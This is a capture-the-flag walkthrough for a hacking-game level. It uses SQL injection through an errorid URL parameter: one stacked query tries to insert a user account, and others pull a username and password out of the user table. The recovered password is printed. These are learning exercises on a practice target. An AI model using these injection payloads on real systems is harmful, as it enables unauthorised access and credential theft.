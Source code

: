 #### Level 08 - Extraterrestrial contact

Assuming this is yet another sql injecton challenge I tried: `http://www.hacmegame.org/hacmegame/challenges/ChallengeS25.html?errorid=;`

Then I got this error message:
```
java.sql.SQLException: Unexpected token: ; in statement [SELECT text FROM error WHERE id = ;]
```

Now I know what the query looks like.

Trying to get the query to look like this so I can log in with asdf:asdf

```sql
SELECT text FROM error WHERE id = 0;INSERT INTO user (username,password) VALUES ('asdf','asdf')
```

with the url: `?errorid=0;INSERT%20INTO%20user%20(username,password)%20values%20('asdf','asdf')`

But I get: "A unknown error occurred" :/

New tactic:

```
?errorid=0;SELECT username as text FROM user
```

Oh, it printed out "josef" :)

And of course we need the password too:

```
?errorid=0;SELECT password as text FROM user
```

Which printed out: OQ2UeotG

Success!